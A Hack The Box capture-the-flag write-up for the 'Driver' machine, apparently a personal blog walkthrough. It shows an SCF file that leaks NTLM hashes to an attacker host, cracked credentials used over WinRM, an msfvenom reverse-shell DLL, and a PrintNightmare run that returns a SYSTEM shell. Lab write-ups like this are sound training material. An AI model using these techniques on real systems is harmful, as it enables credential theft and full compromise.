

# HTB - Driver

#### Ip: 10.10.83.71
#### Name: Driver
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ sudo nmap -p-  --min-rate 10000 10.10.11.106  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-21 10:28 CDT
Nmap scan report for 10.10.11.106
Host is up (0.070s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ sudo nmap -sC -sV 10.10.11.106 -p 80,135,445,5985
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-21 10:31 CDT
Nmap scan report for 10.10.11.106
Host is up (0.068s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc?
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-08-21T22:31:20
|_  start_date: 2023-08-21T22:22:54
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.05 seconds
```

Navigating to the website on port 80, we are met with a pop saying we need to authenticate. Luckily, I tried admin:admin and got access to the site:



Clicking on the Firmware Updates link (the only option that contains an actual link) we find an interesting page and message:


Ok interesting. This note seems to imply that whatever we load here will be manually reviewed. Lets try an SCF attack.

### Exploitation

First we need to create an .scf file (Shell Command File) which contains our IP we'll be listening on with Responder. We can do that with:


```text
[Shell]
Command=2
IconFile=\\10.10.14.34\share\testing.ico
[Taskbar]
Command=ToggleDesktop
```

I saved this to a file called test.scf.

Lets now start up Responder to listen for any connections:


Once we upload the file we see that user Tony did reveiw it and Responder was able to grab his hash!


Lets put this hash in a file called tony_hash and use JohnTheRipper to crack it:


Remembering that WinRM (port 5985) is open on the target, lets login with the discovered credentials using Evil-WinRM:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ evil-winrm -i 10.10.11.106 -u tony -p liltony

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Documents> hostname
DRIVER
```

We can now grab the user.txt flag:


### Privilege Escalation

I'll use the `upload` feature in Evil-WinRM and upload a copy of WinPEAS to help enumerate a privilege escalation vector:

```text
*Evil-WinRM* PS C:\Users\tony\Music> upload /home/ryan/Tools/privesc/winPEASx64.exe
Info: Uploading /home/ryan/Tools/privesc/winPEASx64.exe to C:\Users\tony\Music\winPEASx64.exe

                                                             
Data: 2581844 bytes of 2581844 bytes copied

Info: Upload successful!
```

Looking through the results from WinPEAS, I start seeing lots of info about Ricoh printers.


Googling for exploits I find https://github.com/cube0x0/CVE-2021-1675 hosting the PrintNightmare exploit code.

Lets try this.

First we'll need to create a reverse shell .dll using msfvenom:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.34 LPORT=443 -f dll -o shell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: shell.dll
```

With that created we can then set up an smb share using impacket-smbserver:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ impacket-smbserver share . 
```

Then, with a NetCat listener going, we can run the exploit:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ python printnightmare.py driver/tony:liltony@10.10.11.106 '\\10.10.14.34\share\shell.dll'
```

And catch a shell back as nt authority\system:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.11.106] 49432
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```


From here all we need to do is grab the root.txt flag:


Thanks for following along!

-Ryan

----------------------------------------
